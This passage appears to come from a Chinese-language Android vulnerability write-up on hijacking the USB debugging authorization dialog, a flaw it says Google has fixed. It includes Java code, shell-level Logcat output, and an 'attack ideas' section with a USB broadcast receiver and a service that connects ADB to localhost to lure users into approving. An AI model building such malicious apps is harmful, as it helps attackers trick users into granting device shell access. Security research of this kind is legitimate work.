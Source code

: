 ```java
            execCommandProcess.waitFor();
            readData(execCommandProcess.getInputStream());
        }catch (InterruptedException e){
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }
        return execCommandProcess;
    }
```

会弹出USB调试授权窗口，google已经修复此覆盖hijack漏洞。

Logcat输出:

```
output: connected to 127.0.0.1:5555
output: uid=2000(shell) gid=2000(shell) groups=1003(graphics),1004(input),1007(log),1009(mount),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats) context=u:r:shell:s0

```

备注:

可能在实验的时候，会没有弹出授权窗口，此时删除apk，撤销USB授权后，重启机器可还原环境。

### 0x04 思考部分攻击思路Exp
AndroidManifest.xml 增加USB广播:

``` xml
<receiver
    android:name=".UsbBroadcastReceiver"
    android:enabled="true"
    android:exported="true">
    <intent-filter android:priority="100">
        <action android:name="android.hardware.usb.action.USB_STATE"/>
    </intent-filter>
</receiver>
```

然后在接收广播后，启动service,在onStartCommand中进行连接:

```java
public int onStartCommand(Intent intent, int flags, int startId) {
        Log.d(TAG, "onStartCommand: adb vul");

        String[] connectCmd = {"adb","connect","127.0.0.1:5555"};
        execCommand(connectCmd);

        return super.onStartCommand(intent, flags, startId);
    }
```

此时只要用户打开过该恶意应用，然后连接USB至电脑，则会弹出恶意的授权窗口:
![](/Users/tasfa/Downloads/Screenshots/fakeapk.png)
只有用户点击一律允许后，再次连接usb才会弹出pc端的授权，也因此造成了用户的诱导.
